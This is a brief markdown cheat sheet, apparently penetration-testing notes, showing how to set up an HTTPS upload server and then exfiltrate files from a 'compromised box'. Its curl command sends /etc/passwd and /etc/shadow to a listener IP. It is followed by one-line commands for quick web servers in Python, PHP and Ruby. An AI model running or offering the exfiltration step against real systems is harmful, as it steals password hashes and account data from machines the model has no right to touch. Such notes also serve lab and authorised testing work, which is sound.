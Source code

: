 ### startin uplaod server
```
## downlaoding
sudo python3 -m pip install --user uploadserverv
## creating cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
## starting service
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
## uplaoding file from compromsied box
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
## starign web servers 
### python3
```
python3 -m http.server
```
### python2.7
```
python2.7 -m SimpleHTTPServer
```
### php
```
php -S 0.0.0.0:8000
```
### ruby
```
ruby -run -ehttpd . -p8000
```
